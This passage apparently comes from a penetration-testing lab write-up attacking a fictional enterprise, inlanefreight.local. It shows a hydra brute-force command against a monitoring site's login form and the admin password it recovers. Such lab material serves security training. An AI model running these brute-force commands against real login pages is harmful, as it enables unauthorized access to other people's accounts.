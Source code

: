 ![Firefox - Monitoring Subdomain Homepage 1](./assets/screenshots/attacking_enterprise_networks_external_testing_41.png)

**Login Brute Forcing**

![Burp Suite - Monitoring POST Login](./assets/screenshots/attacking_enterprise_networks_external_testing_42.png)

```
┌──(nabla㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&password=^PASS^:F=Invalid Credentials!" -f -t 50

[SNIP]

[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
```

```yaml
credentials:
    username: admin
    password: '12qwaszx'
    host: monitoring.inlanefreight.local
```

![Firefox - Monitoring Subdomain Homepage 2](./assets/screenshots/attacking_enterprise_networks_external_testing_43.png)
